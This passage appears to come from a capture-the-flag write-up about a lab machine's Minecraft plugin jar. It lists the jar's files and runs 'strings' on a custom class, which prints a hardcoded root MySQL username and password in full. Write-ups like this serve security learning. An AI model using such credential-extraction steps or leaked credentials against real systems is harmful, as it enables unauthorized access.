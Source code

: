 ```bash
```
```bash
tree -fas
```
```bash
[         50]  .
├── [        883]  ./BlockyCore.jar
├── [         26]  ./com
│   └── [         32]  ./com/myfirstplugin
│       └── [        939]  ./com/myfirstplugin/BlockyCore.class
└── [         22]  ./META-INF
    └── [         25]  ./META-INF/MANIFEST.MF

3 directories, 3 files
```
```bash
file ./com/myfirstplugin/BlockyCore.class
```
```bash
./com/myfirstplugin/BlockyCore.class: compiled Java class data, version 52.0 (Java 1.8)
```

# Exploitation
Looking at the jar files, griefprevention is an open source plugin that is freely available.
BlockyCore, however, appears to be created by the server administrator, as its title relates
directly to the server. Decompiling with JD-GUI exposes the credentials for the root MySQL user.
Now extract the file.

```bash
strings ./com/myfirstplugin/BlockyCore.class
```
```bash
com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
	localhost	
root	
8YsqfCTnvxAUeduzjNSXe22	
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```
